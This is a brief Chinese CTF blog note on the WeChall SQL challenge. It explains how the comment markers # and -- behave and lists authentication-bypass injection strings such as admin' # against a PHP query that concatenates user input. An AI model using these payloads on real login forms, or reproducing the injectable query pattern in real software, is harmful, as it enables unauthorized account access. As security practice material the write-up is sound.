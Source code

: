 ```yaml
---
title: WeChall_SQL
date: 2022-10-06
description: 关于#和--在sql中的具体用法
category: 信息安全
tags:
  - CTF
  - Web
  - SQL
---
```

# --和#的具体用法
`#`是php和sql中的注释，而`--`仅是sql语言中的注释,`--`在使用时后面必须有一个空格
原题代码为`$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";`
```
admin' ;#                           可以
admin' #                            可以，说明#在sql中发挥作用而非在PHP中
admin' or 1=1;#                     不可以，此时没有以admin身份登录

Admin' -- yes i can                 可以
Admin' --yes i can                  不可以，--后面没有空格
Admin' --                           不可以，--后面没有空格（后面的句子会顶上来）
Admin' -- (a space here)            可以
```

 